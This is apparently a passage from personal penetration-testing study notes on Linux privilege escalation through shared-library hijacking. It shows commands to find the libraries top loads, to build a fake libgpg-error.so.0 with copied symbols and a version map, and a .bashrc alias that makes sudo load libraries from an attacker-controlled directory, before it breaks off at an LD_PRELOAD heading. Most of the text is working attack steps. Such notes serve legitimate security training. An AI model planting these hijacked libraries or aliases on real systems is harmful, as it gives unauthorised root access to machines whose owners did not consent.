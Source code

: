 Now we need to replace any other shared library used by the binary, to display shared libs of top:
#shared-lib 
```bash
ldd /usr/bin/top
```

We can replace the libgpg-error.so.0
```bash
# we rename the previously compiled libhax.so to the libgpg-error
cp libhax.so libgpg-error.so.0
export LD_LIBRARY_PATH=/home/offsec/ldlib/
```

However, that causes errors as we do not have symbols in our so. We can get the list of symbols from original lib:
#shared-lib 

```bash
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print "int",$8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```

Then copy/paste the output just after the constructor declaration. However, there is a version map missing, to add that:
#shared-lib 
```bash
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```
The output must be wrapped and stored in the gpg.map:
#shared-lib 
```bash
GPG_ERROR_1.0 {
gpgrt_onclose;
_gpgrt_putc_overflow;
...
gpgrt_fflush;
gpgrt_poll;
};
```
Then when we compile:
#compile #c
```bash
gcc -Wall -fPIC -c -o hax.o hax.c
gcc -shared -Wl,--version-script gpg.map -o libgpg-error.so.0 hax.o
```

Final alias in .bashrc:
#priv-esc-linux #alias
```
alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/ldlib"
```


### LD_PRELOAD

The variable is used for hooking the functions, to execute something before the programs starts, similar limitations as the previous one.
